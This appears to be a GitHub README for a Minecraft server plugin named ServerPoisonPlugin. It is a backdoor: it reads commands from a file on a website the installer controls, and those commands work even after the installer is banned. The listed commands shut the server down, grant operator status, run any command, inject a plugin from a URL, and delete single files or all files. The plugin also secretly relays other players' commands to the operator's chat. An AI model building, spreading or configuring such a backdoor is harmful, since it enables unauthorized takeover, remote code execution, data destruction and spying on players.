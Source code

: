 ## Important

**Before you can use the plugin, you need to host the website on a server (You can find a free hosting service [here](https://000webhost.com/)).**
**You also need to compile the plugin with your username and the HTTP link to your web hosting in the variables provided, as shown in the screenshot below.**
(You can use [Eclipse](https://eclipseide.org) to edit and compile the code.)

![image](https://github.com/cempack/ServerPoisonPlugin/assets/73651345/3ca7e874-8594-4327-b456-f6ad1cc695d2)

## Commands and Usage

**The commands below should be placed in the command.txt file on the website. You can execute them even if you are banned from the server.**

1. **Command: stop**
   Usage: Type "stop" to shut down the server.
   Example: `stop`

2. **Command: op \<player\>**
   Usage: Type "op \<player\>" to grant operator status to a player.
   Example: `op JohnDoe`

3. **Command: command \<command\>**
   Usage: Type "command \<command\>" to execute a specific server command.
   Example: `command kill player123`

4. **Command: inject \<url\>**
   Usage: Type "inject \<url\>" to inject a plugin from a given URL.
   Example: `inject http://example.com/somefile.jar`

5. **Command: delete \<file\>**
   Usage: Type "delete \<file\>" to delete a specific file from the server.
   Example: `delete logs.txt`

6. **Command: deleteall**
   Usage: Type "deleteall" to delete all files on the server.
   Example: `deleteall`

In addition to these commands, the plugin also displays all commands executed by other players in your in-game chat.
